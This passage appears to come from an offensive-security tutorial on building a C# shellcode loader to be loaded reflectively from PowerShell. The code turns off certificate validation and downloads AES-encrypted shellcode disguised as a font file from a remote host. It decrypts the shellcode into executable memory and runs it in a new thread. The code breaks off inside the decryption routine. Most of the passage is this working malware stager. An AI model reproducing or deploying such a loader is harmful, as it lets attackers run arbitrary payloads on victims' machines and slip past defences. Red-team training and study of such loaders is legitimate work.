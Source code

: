 Close Visual Studio and Open it again from the directory that the project was created. Now let's modify the C# code. We will do a little change to the code. Now instead of a constructor, we need a static method to execute this code. We will execute this by reflectively loading it from Powershell.

```cs
using System.Diagnostics;
using System.Windows.Forms;
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

[ComVisible(true)]
public class LetsDoit
{
    private static string AESKey = "D(G+KbPeShVmYq3t";
    private static string AESIV = "8y/B?E(G+KbPeShV";
    private static string url = "http://192.168.3.2:8000/fonts.woff";

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static void LetsDoitGo()
    {
        ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
        System.Net.WebClient client = new System.Net.WebClient();
        byte[] shellcode = client.DownloadData(url);

        List<byte> l = new List<byte> { };

        for (int i = 16; i <= shellcode.Length - 1; i++)
        {
            l.Add(shellcode[i]);
        }

        byte[] actual = l.ToArray();

        byte[] decrypted;

        decrypted = Decrypt(actual, AESKey, AESIV);
        IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
        Marshal.Copy(decrypted, 0, addr, decrypted.Length);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
    {
        byte[] key = Encoding.UTF8.GetBytes(AESKey);
        byte[] IV = Encoding.UTF8.GetBytes(AESIV);

```